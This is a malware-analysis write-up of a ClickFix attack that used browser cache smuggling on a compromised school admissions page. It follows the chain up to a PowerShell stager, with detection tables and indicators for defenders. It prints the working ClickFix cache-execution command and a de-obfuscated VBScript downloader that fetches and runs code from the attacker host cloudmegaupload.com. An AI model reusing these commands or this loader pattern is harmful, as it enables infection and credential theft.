## Executive Summary

It started the way a lot of bad days start: someone opened a perfectly normal website. In our case it was the admissions page of an international school, a page parents visit to check which documents they need for registration. Halfway down the page a Cloudflare "Verify you are human" box appeared. One click, and the box politely asked the visitor to press `Win + R`, then `Ctrl + V`, then `Enter`.

That is **ClickFix**. But this one has a twist that makes it more interesting than the usual "paste this PowerShell download cradle" variant. The command the victim pastes contains **no URL at all**. The malware was already on the disk before the victim pressed anything, sitting quietly inside the browser cache. The pasted command only goes looking for it. This technique is known as **browser cache smuggling**.

From there the chain walks through seven stages: an obfuscated VBScript, a PowerShell stager that hides its next-stage addresses inside a JWT, a fake "Cloudflare Security Challenge" window to keep the victim busy, a toolkit ZIP disguised as MinGW license files, APC injection into the Microsoft-signed `pnputil.exe`, a custom-packed stealer masquerading as `svchost.exe`, and finally a private 51 MB Python 3.14 runtime that hijacks `RuntimeBroker.exe` and beacons to a live C2.

The final payload is a **crypto-wallet, Viber and payment-card infostealer** carrying 789 browser-wallet extension IDs and 87 desktop-wallet paths. I could not match it to a public family, so I refer to it with the attacker's own tags: **VelCap** (`velcap4*` URLs).

For every stage below I added a **"Did it reach this stage?"** box. If you are on an Cybersecurity team, those boxes are the part to copy into your hunting notes.

## Key Findings

- **Initial access is ClickFix + browser cache smuggling** on a compromised, legitimate school website. The command pasted into the Run dialog contains no network indicator. It renames a cached file to `rt.vbs` and runs it with `wscript`.
- **Only stage 1 is known publicly.** The VBS loader has 28/62 AV detections. Every PowerShell stage, the ZIP toolkit and the shellcode returned **zero** hits in GTI/VirusTotal at the time of analysis, including searches for unique strings.
> **Note:** The adversary now active and upload a mawlare sample with 0 detection in VT but with same behavior. In the IOC's section I added both the old and new malware hash.
{: .prompt-info }
- **The C2 is User-Agent gated.** Scanners get an empty page or a fake "MEGA Transfer" page. Only the malware's own User-Agent `Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)` gets the payload.
- **Next-stage addresses ride inside an HS256 JWT**, passed from one stage to the next on the command line.
- **Two different injection techniques** are used: APC injection into `pnputil.exe`, then thread-execution hijacking of `RuntimeBroker.exe`.
- **The same custom packer is used twice**: XOR-128 key, a modified aPLib, a PEB walk with hash seed `0x6C6C6A62` and a reflective PE loader.
- **Persistence needs no admin rights**: a user-level scheduled task `SystemDesignTask.RevRogPYS-<SID>` runs `pythonw.exe systemcheck.pyw`.
- **Live C2 confirmed**: `GET /api/currentVersion` to `172.96.160[.]208` on ports 80 and 443 with User-Agent `M/1.0`.

## The Attack Chain at a Glance

| # | Stage | What it is | What it does |
|---|---|---|---|
| 0 | Initial access | Fake Cloudflare Turnstile on a compromised site | ClickFix + browser cache smuggling, runs `rt.vbs` |
| 1 | `rt.vbs` | Obfuscated VBScript (1,714 lines, ~40 useful) | Sandbox profiling via WMI, downloads stage 2 |
| 2 | `v.dat` | PowerShell stager with an embedded JWT | Spawns stage 3, drops HTML, task `RobocopyOnce`, fake Cloudflare GUI |
| 3 | `velcap4b` / `velcap4d` | PowerShell downloader | Pulls the base64 ZIP, extracts toolkit, task `InitializeOnce` |
| 4 | `renv.zip` toolkit | PowerShell "cab" scripts | Dynamic P/Invoke, APC injection into `pnputil.exe` |
| 5 | `sc.score` shellcode | Custom packer + stealer PE | Unpacks a stealer masquerading as `svchost.exe` |
| 6 | `RuntimeEnvironment.revrog` | Embedded Python 3.14 + `systemcheck.pyw` | AES-decrypts a module, hijacks `RuntimeBroker.exe`, persistence task |
| 7 | RuntimeBroker module | Second stealer module, same packer | SQLite harvesting, browser injection, C2 beacon |

```text
School website (compromised)
   └─ fake "Verify you are human"  ──>  browser silently caches a VBS file (f_xxxxxx)
        └─ Win+R / Ctrl+V / Enter
             └─ cmd: find f_* of 236,456 bytes in Brave cache -> ren rt.vbs -> wscript
                  └─ Stage 1 VBS  -> https://cloudmegaupload[.]com/velcap4a
                       └─ Stage 2 PS (JWT) -> 62.238.41[.]64/velcap4b  + undefined[.]vg HTML
                            └─ Stage 3 PS  -> 62.238.41[.]64/velcap4c (ZIP)
                                 └─ Stage 4 toolkit -> APC inject pnputil.exe
                                      └─ Stage 5 stealer PE ("svchost.exe")
                                           └─ Stage 6 pythonw.exe systemcheck.pyw
                                                └─ Stage 7 RuntimeBroker.exe -> 172.96.160[.]208
```

---

## 0. Initial Access: A Captcha That Was Never a Captcha

### 0.1 The lure

The victim lands on `dpsriyadh[.]org/admission/`, the admissions page of a real school. Everything on the page looks right: required documents, age criteria, the fee structure PDF viewer. The site itself is a victim here. Someone injected a script into it, and that script draws a fake Cloudflare Turnstile box over the page.


_The fake "Verify you are human" box rendered on top of the legitimate admission page_

After the click, the box changes to a "Verifying..." panel with three steps and a fake `Ref ID` to look official.


_The classic ClickFix three steps: Win + R, Ctrl + V, Enter_

Notice what the victim is actually doing here. They open the Run dialog, paste whatever the page placed in their clipboard, and execute it. No exploit and no macro. The user is the exploit.

### 0.2 The twist: the payload is already in the cache

The usual ClickFix command is a PowerShell or `mshta` line with a URL in it, which is easy to block and easy to alert on. This one looks like this:


_The command copied to the clipboard by the fake captcha_

```bat
cmd /d /q /c for /r "%LOCALAPPDATA%\BraveSoftware\Brave-Browser\User Data" %f in (f_*) do @if %~zf==236456 ren "%f" rt.vbs & wscript "%~dpf\rt.vbs"
```

Let's break it down:

- `for /r ... in (f_*)` walks the whole Brave (or whatever browser you use) profile looking for files whose names start with `f_`. That is how Chromium names the larger entries in its disk cache (`Cache\Cache_Data\f_00xxxx`).
- `if %~zf==236456` picks the one file with exactly **236,456 bytes**. The file size acts as the "key".
- `ren "%f" rt.vbs` renames that cache entry in place to `rt.vbs`.
- `wscript "%~dpf\rt.vbs"` runs it.



So where did the file come from? When the victim loaded the page, the injected script asked the browser to fetch a resource. The browser saved the response in its cache like any other image or script. That response was actually a VBScript. The download happened during normal browsing, so it blends with normal traffic, and the command typed by the victim never touches the network. This is the **browser cache smuggling** technique described in SensePost's research, and GTI links our stage-1 domain to a crowdsourced collection called *"Indonesia Browser Cache Smuggling Activity"*. I treat that as a correlation signal, not attribution.

To understand more how this malware landing to my machine (which is the worst machine for him to land on xD) I used old (but still gold) tool called "ChromeCacheView" from NirSoft to detect the moment it and the path it load from and comparing the size like the adversary do, I found it loaded as PNG image:



And as showen it actually loaded from the path: `/_r/f/l5xm5s4e.png` as image.

Going to the directory I found the VBS file as image:




One thing are worth stating clearly, the command isn't hard-coded for **Brave**, so the operator rotates the path per browser, I tried to change the browser and change the browser name/path.

### Did it reach this stage?

| Where | What to look for | Telemetry |
|---|---|---|
| Registry | The pasted command in `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU`. This is the single best ClickFix artifact on a host. | Registry / Sysmon 13 |
| Process | `explorer.exe` -> `cmd.exe` with `for /r`, `User Data`, `f_*` and `wscript` in the same command line | Sysmon 1 / 4688 |
| Process | `wscript.exe` running a `.vbs` from inside a browser profile `Cache_Data` folder | Sysmon 1 / 4688 |
| File | A file named `rt.vbs` (or any `.vbs`) inside `...\User Data\...\Cache\Cache_Data\` | Sysmon 11 / EDR file events |
| Browser | Visits to the compromised page, with a cache entry of the exact size used as the key (I don't want to publish the website since I didn't take the permission) | Proxy logs, browser history |

If you see the RunMRU entry but no `wscript.exe` child, the user pasted the command but the cache file was not found. The chain stopped here.

---

## 1. Stage 1: `rt.vbs`, Mostly Noise

| Property | Value |
|---|---|
| File | `rt` (VBScript) |
| Size | 236,456 bytes, 7,589 lines |
| SHA256 | `8d2608a0a10578b48269bf95aa9ea8064ca4c5f727d685250a7238a274aeb49e` |
| MD5 | `c75f667cf5e98942f4dfb038af46f5c6` |
| Detections | 0/62 but old version was detected with (Kaspersky `HEUR:Trojan-Downloader.Script.Generic`, ESET `VBS/Agent.UMF`, huorong `HEUR:Trojan/VBS.GuLoader.g`) |

Open this file and you see huge number of junk `Dim` statements, dead blocks like `If A > B Then WScript.Sleep 0 End If` where the condition is always false, and random comments. Only around 40 lines do real work. URLs are rebuilt at runtime from fragments by a small helper `Jn()` that joins an array.




_After clean the code and remove 7549 lines_

The first real job is to **profile the machine**. Through `winmgmts:\\.\root\cimv2` it queries the OS, CPU, RAM, disks, MAC address, GPU, time zone, battery, user accounts and installed firewall products. It also checks if services like `wuauserv`, `bits`, `cryptsvc`, `Dnscache` and `Spooler` are running. A real laptop has a battery, a GPU and running Windows Update services. A lot of sandboxes don't.

The second job is the download. After removing the junk, the core is short:

```vb
Set htx = CreateObject("MSXML2.ServerXMLHTTP")
htx.Open "GET", "https://cloudmegaupload.com/velcap4a", False
htx.setRequestHeader "User-Agent", "Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)"
htx.Send
Set dst = CreateObject("ADODB.Stream") : dst.Type=2 : dst.Charset="utf-8" : dst.Open
dst.WriteText htx.responseText : dst.SaveToFile %TEMP%\v.dat, 2 : dst.Close
shn.Run "powershell -ep b -nop -Command "" .(Get-Alias *ex)(Get-Content '%TEMP%\v.dat' -Raw) """, 1, False
```

Two small tricks are worth noting. The User-Agent is the "password" for the server, and `.(Get-Alias *ex)` resolves to `iex` without ever writing the word `iex`.

I confirmed the gating myself. With a scanner User-Agent the URL returns an empty page, and GTI holds a 15,338-byte "MEGA Transfer - Secure File Link" decoy HTML for the same URL. With the malware's User-Agent we received the real 15,848-byte PowerShell stage 2. The domain `cloudmegaupload[.]com` was registered on 2026-04-08 through PDR Ltd, sits behind Cloudflare and uses a `Let's Encrypt` certificate.

### Did it reach this stage?

| Where | What to look for | Telemetry |
|---|---|---|
| Process | `wscript.exe` spawning `powershell.exe -ep b -nop -Command` | Sysmon 1 / 4688 |
| Process | WMI burst from `wscript.exe`: `Win32_Battery`, `Win32_VideoController`, `Win32_FirewallProduct` | WMI-Activity / EDR |
| Network | DNS for `cloudmegaupload[.]com`, HTTPS `GET /velcap4a` | Sysmon 22 / DNS / proxy |
| Network | HTTP User-Agent `Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)`. Real browsers do not send this. | Proxy (TLS inspection) |
| File | `%TEMP%\v.dat` created by `wscript.exe` | Sysmon 11 |
| Script | `Get-Alias *ex` in PowerShell script-block logs | PowerShell 4104 |

---

## 2. Stage 2: `v.dat`, the Stager That Hides Its Map in a JWT

| Property | Value |
|---|---|
| File | `v.dat` (PowerShell) |
| Size | 15,848 bytes |
| SHA256 | `f34bd52e3f418998c2320c829d7730750405b4ea481deab5dbafc933b94f7c87` |
| Public intel | 0 hits |

The script opens with 56 lines of comment-based help copied from a real PowerShell Slack module ("Search a Slack team for a message"), complete with `api.slack.com` links. A quick glance and you would think it is a harmless admin script.


_slack fake message_

Then comes the interesting part, a single variable holding a JWT:

```powershell
$vn = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...."
```



Decode the middle part and the attacker's whole roadmap falls out:

```json
{"part1":"62.238.41.64/velcap4b","part2":"62.238.41.64/velcap4c","part3":"undefined.vg"}
```


_cyberchef decode the parts_

The token is not used for authentication. It is a config container that looks like normal web traffic, and the same `$vn` is handed down to the next stage on its command line.

With the map in hand, stage 2 does four things in parallel:

1. **Spawns a hidden PowerShell** that downloads `part1` with the same spoofed User-Agent and runs it with `.(get-alias *ex)`. That is stage 3.



2. **Downloads `part3`** (`undefined[.]vg`) to `%TEMP%\a075645b3762542c756453cap5van.html`, with three retries.
3. **Registers the task `RobocopyOnce`**, which uses `robocopy.exe` to move that HTML from `%TEMP%` to `%APPDATA%`, deletes the source and then deletes itself. The task action is launched through `conhost.exe --headless powershell.exe -NoP -ep Bypass -File` so no console window ever flashes. The strings are split (`'--head'+'less'`, `'powers'+'hell.exe'`), and registration falls back from cmdlets to `schtasks.exe` to the `Schedule.Service` COM object, with RunLevel highest.



4. **Shows the victim a fake "Cloudflare Security Challenge" window.** It is a Windows Forms GUI that walks through invented steps ("TLS Handshake", "Edge Routing", "Browser Integrity", "Bot Detection", "Token Exchange") with random scores and a fake ray ID for about two minutes, then says "Verification complete".

